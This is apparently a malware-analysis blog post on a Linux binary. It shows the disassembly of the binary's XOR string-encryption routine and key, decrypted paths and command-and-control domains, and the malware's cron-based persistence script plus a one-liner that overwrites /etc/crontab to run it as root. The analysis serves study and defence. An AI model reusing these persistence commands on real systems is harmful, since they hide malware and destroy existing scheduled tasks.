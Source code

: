 ```yaml
---
layout: post
title: "3945ac76b591cdbd50515b9f65821a64"
comments: true
description: "3945ac76b591cdbd50515b9f65821a64"
keywords: "3945ac76b591cdbd50515b9f65821a64"
---
```


Upon decompiling, there is a subroutine called as `encrypt_code`. This subroutine is using XOR to "encrypt" the string with the predefined key. The string can be "decrypt" using a simple Python script found here (https://gist.github.com/moonbingbing/3432989).

key = BB2FA36AAA9541F0

```
0x8049090 <encrypt_code+0>:    push    ebp {__saved_ebp}
0x8049091 <encrypt_code+1>:    mov     ebp, esp {__saved_ebp}
0x8049093 <encrypt_code+3>:    push    esi {__saved_esi}
0x8049094 <encrypt_code+4>:    mov     esi, dword [ebp+0xc {arg2}]
0x8049097 <encrypt_code+7>:    push    ebx {__saved_ebx}
0x8049098 <encrypt_code+8>:    mov     ebx, dword [ebp+0x8 {arg1}]
0x804909b <encrypt_code+11>:    test    esi, esi
0x804909d <encrypt_code+13>:    jle     0x80490c2
0x804909f <encrypt_code+15>:    xor     ecx, ecx  {0x0}
0x80490a1 <encrypt_code+17>:    mov     eax, ecx
0x80490a3 <encrypt_code+19>:    sar     eax, 0x1f
0x80490a6 <encrypt_code+22>:    shr     eax, 0x1c
0x80490a9 <encrypt_code+25>:    lea     edx, [ecx+eax]
0x80490ac <encrypt_code+28>:    and     edx, 0xf
0x80490af <encrypt_code+31>:    sub     edx, eax
0x80490b1 <encrypt_code+33>:    movzx   eax, byte [edx+xorkeys]
0x80490b8 <encrypt_code+40>:    xor     byte [ecx+ebx], al
0x80490bb <encrypt_code+43>:    add     ecx, 0x1
0x80490be <encrypt_code+46>:    cmp     ecx, esi
0x80490c0 <encrypt_code+48>:    jne     0x80490a1
0x80490c2 <encrypt_code+50>:    mov     eax, ebx
0x80490c4 <encrypt_code+52>:    pop     ebx {__saved_ebx}
0x80490c5 <encrypt_code+53>:    pop     esi {__saved_esi}
0x80490c6 <encrypt_code+54>:    pop     ebp {__saved_ebp}
0x80490c7 <encrypt_code+55>:    retn
```

Some of the encrypted strings:

```
1. m4S4nAC/n&ZV - /var/run/gcc
2. m4S4nAC/nA - /var/run/
3. m6_6n3 - /tmp/
4. m [(n3 - /bin/
5. m7A4nQ_/nA - /usr/bin/
6. m.[$n__#4%\\C - /lib/libudev
7. &,Ak&\\Y&-$\x17ZFV|\x06rr\x02v=R\x1b%/2\x14R[^!\\\'lQ),\t - dns-google.org:60000|a-dns-google.com:
```

Further execution shows that a Bash script will be downloaded from `103.25.9.228` using a HTTP GET request. Last checked on 21/9/08, the IP address is no longer responding to any connection. However, some of the malware post-installation can still be found within the binary itself.

The post-installation consists of a Bash script named `/etc/cron.hourly/gcc4.sh` which contains the following lines.

```
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
cp /lib/libudev4.so /lib/libudev4.so.6
/lib/libudev4.so.6
```

```
sed -i \'/\\/etc\\/cron.hourly\\/gcc4.sh/d\' /etc/crontab && echo \'*/3 * * * * root /etc/cron.hourly/gcc4.sh\' > /etc/crontab
```
